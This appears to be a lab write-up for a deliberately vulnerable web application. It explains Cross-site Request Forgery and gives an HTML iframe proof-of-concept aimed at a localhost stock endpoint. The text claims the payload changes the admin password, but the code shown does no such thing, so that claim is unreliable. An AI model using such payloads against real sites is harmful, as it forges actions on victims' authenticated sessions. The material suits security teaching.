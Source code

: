 # Cross-site Request Forgery (CSRF)
The user visits an attacker controlled/compromised site, and the site triggers the user's browser to perform actions against an authenticated and/or trusted site without the user's interaction.

## Exploitation
**Prerequisites:** _Authenticated_

**Location:** _Entire Application_

CSRF is present since the application doesn't have cryptographically random values that are newly generated for each critical request (PUT and POST).  Below is an exploitation example exploiting changing passwords with the attacker changing the password of _admin_ to _password10!_:

    # HTML
    <html>
        <body>
            <iframe src="http://localhost:8081/products/stock?url=http://localhost:8081/products/1"></iframe>
        </body>
    </html>

Successful exploitation looks like:
![Alt text](../images/csrf.png?raw=true "CSRF Exploitation")
